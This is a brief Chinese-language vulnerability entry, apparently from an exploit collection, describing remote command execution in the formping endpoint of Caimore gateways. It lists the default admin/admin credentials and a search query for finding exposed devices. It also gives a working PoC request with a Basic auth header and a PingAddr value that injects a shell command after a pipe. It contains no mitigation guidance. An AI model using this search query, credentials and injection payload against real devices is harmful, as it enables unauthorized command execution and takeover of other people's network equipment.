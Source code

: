 # 才茂通信 网关 formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关 formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

```
才茂通信 网关
```

## 网络测绘

```
app="CAIMORE-Gateway"
```

## 漏洞复现

登陆页面，默认口令 admin/admin

![image-20230417100349175](images/image-20230417100349175.png)

验证POC

```
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![image-20230417100401289](images/image-20230417100401289.png)